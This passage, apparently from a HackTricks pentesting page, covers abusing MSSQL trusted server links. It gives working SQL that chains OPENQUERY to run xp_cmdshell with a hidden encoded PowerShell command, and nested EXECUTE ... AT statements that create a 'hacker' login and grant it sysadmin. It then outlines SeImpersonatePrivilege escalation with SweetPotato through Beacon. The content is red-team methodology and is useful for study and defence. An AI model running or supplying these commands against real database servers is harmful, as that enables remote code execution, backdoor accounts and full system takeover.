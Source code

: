 Check where double and single quotes are used, it's important to use them that way.

![](https://book.hacktricks.wiki/en/images/image%20\(643\).png)

You can continue these trusted links chain forever manually.

```sql
# First level RCE
SELECT * FROM OPENQUERY("<computer>", 'select @@servername; exec xp_cmdshell ''powershell -w hidden -enc blah''')

# Second level RCE
SELECT * FROM OPENQUERY("<computer1>", 'select * from openquery("<computer2>", ''select @@servername; exec xp_cmdshell ''''powershell -enc blah'''''')')
```

If you cannot perform actions like `exec xp_cmdshell` from `openquery()` try with the `EXECUTE` method.

#### [Manual - EXECUTE](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/abusing-ad-mssql.html#manual---execute) <a href="#manual---execute" id="manual---execute"></a>

You can also abuse trusted links using `EXECUTE`:

bash

```bash
#Create user and give admin privileges
EXECUTE('EXECUTE(''CREATE LOGIN hacker WITH PASSWORD = ''''P@ssword123.'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
EXECUTE('EXECUTE(''sp_addsrvrolemember ''''hacker'''' , ''''sysadmin'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
```

### [Local Privilege Escalation](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/abusing-ad-mssql.html#local-privilege-escalation) <a href="#local-privilege-escalation" id="local-privilege-escalation"></a>

The **MSSQL local user** usually has a special type of privilege called **`SeImpersonatePrivilege`**. This allows the account to "impersonate a client after authentication".

A strategy that many authors have come up with is to force a SYSTEM service to authenticate to a rogue or man-in-the-middle service that the attacker creates. This rogue service is then able to impersonate the SYSTEM service whilst it's trying to authenticate.

[SweetPotato](https://github.com/CCob/SweetPotato) has a collection of these various techniques which can be executed via Beacon's `execute-assembly` command.
